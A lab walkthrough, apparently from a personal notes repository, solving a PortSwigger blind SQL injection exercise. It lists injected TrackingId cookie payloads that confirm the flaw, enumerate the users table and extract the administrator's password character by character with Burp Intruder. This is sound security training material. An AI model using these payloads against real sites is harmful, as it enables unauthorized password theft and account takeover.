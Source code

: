 # Blind SQL injection with conditional responses

## Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. By exploiting the blind SQL injection vulnerability we can find out the password of the administrator user.

## Reproduction and proof of concept

1. Confirm `TrackingId` parameter is vulnerable: Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. 

```text
Cookie: TrackingId=qKu8R40rq4Hdsfpb; session=2IsD4KyEz4hxnNcI3RdIZbsVggIw71c5
```

2. Send to Repeater. Change the TrackingId cookie to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='1`. The "Welcome back" message appears in the response. 
3. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='2`. The "Welcome back" message does not appear in the response. This confirms `TrackingId` is a vulnerable parameter.
4. Confirm there is a `users` table. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT 'a' FROM users LIMIT 1)='a`. There is a "Welcome Back" so the condition is true, confirming that there is a table called `users`. 
5. Now confirm that the username `administrator` exists in the `users` table. Change the `TrackingId` parameter to: 

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator')='administrator'--'
```

"Welcome back", so the condition is true, confirming that there is a user called `administrator`. 

6. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--'
```

7. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>2)='administrator'--'
```

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>3)='administrator'--'
```

Etcetera. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is 20 characters long.

Request:
![SQLi](../../_static/images/sqli13.png)

Response:
![SQLi](../../_static/images/sqli14.png)

8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10. I took a break, and the lab timed out. New `TrackingId` value of `tFVVYAOZtT7hz2qi`. In the Positions tab, change the value of the cookie to:

```text
TrackingId=tFVVYAOZtT7hz2qi' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack will cycle through each position and possible value, testing each one in turn.

11. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```

![SQLi](../../_static/images/sqli15.png)


12. To test the character at each position, send suitable payloads in the payload position defined. For this lab, assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Bruteforcer" is selected, and under "Payload Options" the range a-z and 0-9 are by default set. 

![SQLi](../../_static/images/sqli16.png)

13. To be able to tell when the correct character was submitted, grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

![SQLi](../../_static/images/sqli17.png)

14. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
16. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,2,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```

17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until `20` and you have the whole password.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

![SQLi](../../_static/images/sqli18.png)

